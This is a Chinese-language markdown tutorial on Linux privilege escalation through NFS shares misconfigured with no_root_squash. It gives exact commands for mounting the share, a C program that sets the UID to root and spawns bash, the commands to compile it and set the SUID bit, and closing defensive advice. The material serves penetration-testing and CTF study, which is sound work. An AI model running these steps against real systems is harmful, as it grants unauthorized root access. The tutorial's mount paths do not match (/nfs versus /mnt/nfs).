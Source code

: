 # 🛠 Linux 權限提升技巧：透過 NFS（Network File System）錯誤配置提權

## 📘 基本概念

- **NFS** 是 Linux/Unix 系統的網路檔案共享協定，設定檔通常位於 `/etc/exports`。
- 預設情況下，NFS 會使用 **root squashing**：把 root 使用者映射為無特權的 `nfsnobody`，防止 root 權限濫用。
- 若共享目錄啟用了 `no_root_squash` 選項，連接的 root 使用者不會被降權，擁有該共享的完全 root 權限。
- **攻擊重點在於：**
  - 利用 `no_root_squash` 可直接建立 SUID 程式並保留 root 權限。
  - 利用 NFS 將惡意可執行檔寫入共享目錄，並從目標系統執行以提權。
  - 權限繞過是建立於 root 身份未被「降級」的前提下。
  - 若目標系統自動掛載該 NFS 共享，攻擊者甚至無需登入目標系統即可植入後門。


---

## 🎯 攻擊條件

1. 目標系統的 NFS 共享允許讀取 `/etc/exports`，確認是否有 `no_root_squash` 的共享。
2. 攻擊者可在這個共享上**寫入檔案**。
3. 在該共享目錄建立一個設定了 **SUID 位元** 的可執行檔案（例如用 C 編譯的反彈 shell 或 bash）。
4. 在目標系統上執行此檔案，因為 `no_root_squash`，該程序以 root 權限執行，達成提權。

---

## 攻擊步驟

### 1. 檢查關鍵檔案

- 查看可掛載的 NFS 共享（在目標機器上）
  
  ```bash
  cat /etc/exports
  ```

- 查看可掛載的 NFS 共享（在攻擊機器上）
  
  ```bash
  showmount -e TARGET_IP
  ```


### 2. 掛載 NFS 共享
- 掛載含 no_root_squash 的共享
  ```bash
  mkdir -p /nfs
  mount TARGET_IP:/exported/path /nfs
  ```

### 3. 建立提權用 SUID 執行檔
- 進入共享目錄後創建 C 程式（在攻擊機器上）
  ```bash
  cd /mnt/nfs
  nano nfs.c
  ```

- C 程式 (nfs.c)，內容類似：
  ```bash
  #include <unistd.h>
  int main() {
     setuid(0);
     setgid(0);
     system("/bin/bash");
     return 0;
  }
  ```
### 4. 建編譯 nfs.c 並設定 SUID 權限
  ```bash
  gcc nfs.c -o nfs
  chmod +s nfs
  ```

### 5. 在目標祭器上執行 nfs
  ```bash
  ./nfs
  ```

## 🧰 重點說明
- no_root_squash 是 NFS 的風險點，解除 root 權限降格。
- 可寫入含 no_root_squash 共享的使用者可透過放置 SUID 程式提升權限。
- 一旦成功執行該程式，即可取得 root shell。

## 🛡 防禦建議
- 避免使用 no_root_squash 除非絕對必要。
- 嚴格設定 NFS 共享權限與存取控制。
- 定期檢查 /etc/exports 配置與共享目錄內容。
- 監控可疑 SUID 程式產生與執行。

## 📌 小結
- NFS 錯誤配置是 Linux 權限提升的常見向量之一。
- 利用 no_root_squash 權限寫入共享並執行 SUID 程式，可快速獲得 root 權限。
- 是滲透測試與 CTF 常見考題，切勿忽視此類配置漏洞。